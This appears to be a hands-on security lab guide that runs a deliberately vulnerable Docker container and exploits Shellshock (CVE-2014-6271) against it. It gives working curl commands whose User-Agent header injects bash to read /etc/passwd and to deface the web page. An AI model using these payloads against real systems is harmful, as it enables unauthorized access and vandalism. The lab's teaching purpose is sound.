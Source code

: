 # **Vulnerable Libraries**

### *Some containers that are often used and available on `DockerHub` are not updated regularly, which results in them having vulnerable packages and libraries. Shellshock(Bashdoor) is one such vulnerability found in older versions of bash that haven't been updated.*

### **Lab Image : `Containers`**

---

#### Step 1:

* Run an image that is vulnerable to ShellShock on the provisioned server

```commandline
docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
```

* Fetch the public IP of the server

```commandline
serverip
```

---

#### Step 2:

* Verify that is application is running by accessing it on the browser

```commandline
echo "http://$(serverip):8080"
```

* Exploit the vulnerability and access `/etc/passwd` of the vulnerable container

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$(serverip):8080/cgi-bin/vulnerable
```

* By exploiting ShellShock, deface the website

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://$(serverip):8080/cgi-bin/vulnerable
```

* Verify by accessing the application on the browser

```commandline
echo "http://$(serverip):8080"
```

---

#### Step 3:

* Stop all containers

```commandline
clean-docker
```

---

### Reading Material/References:
